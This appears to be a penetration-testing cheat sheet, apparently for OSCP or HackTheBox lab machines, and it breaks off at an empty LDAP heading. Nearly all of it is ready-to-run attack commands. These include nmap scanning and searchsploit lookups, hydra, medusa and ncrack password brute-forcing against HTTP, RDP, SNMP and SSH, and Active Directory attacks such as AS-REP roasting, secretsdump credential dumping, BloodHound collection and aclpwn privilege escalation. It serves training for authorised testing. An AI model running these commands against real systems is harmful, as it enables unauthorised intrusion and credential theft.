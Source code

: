 # Methodology
```
Scan all ports all/Agg/udp
find EXACT versions including web
search exploits online incl web
search exploits in searchsploit incl web
search how to exploit name_of_service/web
```

# Scanning

if ports appear wrapped with nmap add -n option
# Scan
### ping sweep
```
nmap -sn 10.11.1.0/24 -oA ping+
cat ping+.nmap | grep up -B 1 | grep for | cut -d " " -f 5  > active.txt
for i in `cat online.txt`;do mkdir $i;done
```
### Scan and find vulns
```
nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
```

# Password attacks
```
# Basic HTTP
medusa -h 10.11.1.219 -u  admin -P  password-file.txt -M  http -m DIR:/admin -T 10

# HTTP FORM
hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top100.txt 10.11.1.230 http-post-form "/goform/formLogin:Login=^USER^&Password=^PASS^:Invalid" -t 10

# RDP
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35

# SNMP
hydra -P password-file.txt -v 10.11.1.219 snmp

# SSH 
hydra -l root -P password-file.txt 10.11.1.219 ssh
```
# Enum/Exploit

### KERB
```
#find users by bruting sids
lookupsid.py   (impacket) or enum4linux
python getNPusers.py EGOTISTICALBANK/  -no-pass -usersfile users.txt
impacket-secretsdump EGOTISTICALBANK/svc_loanmgr@10.10.10.175
bloodhound-python -c All -u svc-alfresco -p s3rvice -d htb.local -dc 10.10.10.161 -gc htb.local
or
runas /user:domainname\username powershell.exe and sharphound.exe
# be sure to import bloodhound files into db first
aclpwn -f svc-alfresco@htb.local -d htb.local --server 10.10.10.161 -du neo4j -dp ******
```
### LDAP